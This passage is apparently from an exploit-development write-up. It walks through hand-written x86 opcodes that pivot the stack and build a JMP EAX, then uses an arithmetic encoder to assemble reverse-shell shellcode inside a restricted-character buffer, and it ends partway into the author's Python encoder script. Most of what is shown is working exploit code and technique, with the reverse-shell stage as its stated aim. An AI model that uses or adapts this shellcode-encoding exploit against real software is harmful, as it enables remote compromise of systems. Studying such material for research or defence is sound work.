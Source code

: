 Next, we set `AX` back to `0xFFFF` and carve out a `JMP EAX` call, pushing it
onto the stack right at the end of our buffer, at address `0x00B8FFFE-F`:
```
66:2D 011F  SUB AX,1F01
40          INC EAX
66:50       PUSH AX
```

Finally, we XOR out the address to which we'd like to jump, near the beginning
of our 3500-byte buffer at address `0x00B8F28C`.
```
66:35 7312  XOR AX,1273
```

## Reverse Shell
We begin the next stage by moving our stack to a safe location near the end of
the 3,500 byte buffer:
```
# 0x00B8FFFE -> 0x00B8FE9C
66:0D 100E  OR AX,0E10  
50          PUSH EAX
5C          POP ESP
```

Still fighting a prohibitively restrictive set of usable characters, we must
resort to using an arithmetic encoder.  This one works by breaking the desired
shellcode into 4-byte chunks, using safe characters to subtract from zero 
until we land at the desired DWORD, then pushing those instructions onto the
stack.  It consists of a few hundred blocks that look like this:
```
25 4A4D4E55      AND EAX,554E4D4A
25 3532312A      AND EAX,2A313235
2D 01010101      SUB EAX,01010101
2D 01100141      SUB EAX,41011001
2D 087C067E      SUB EAX,7E067C08
50               PUSH EAX
```

Since the shikata_ga_nai encoder we've chosen for our final payload stage 
requires a few bytes' overhead at the top of the stack, we'll conclude our 
decoding process by pushing a few 'NOP's to separate our working space from our 
decoded shellcode:
```
# Push 3x 'PUSH 0x47474747' instructions
68 47474768      PUSH 68474747
68 47476847      PUSH 47684747
68 47684747      PUSH 47476847
```

## Scripts
Here is the script I wrote to perform the encoding process:
```
#!/usr/bin/env python
import sys

allowed  = ""
allowed += "\x01\x02\x03\x04\x05\x06\x07\x08\x09" # \x0a\x0b
allowed += "\x10\x11\x12\x13\x14\x15\x16\x17" # \x0d\x0c\x0e\x0f
allowed += "\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23" # \x18\x20
allowed += "\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
allowed += "\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b"
allowed += "\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47"
allowed += "\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53"
allowed += "\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
allowed += "\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b"
allowed += "\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77"
```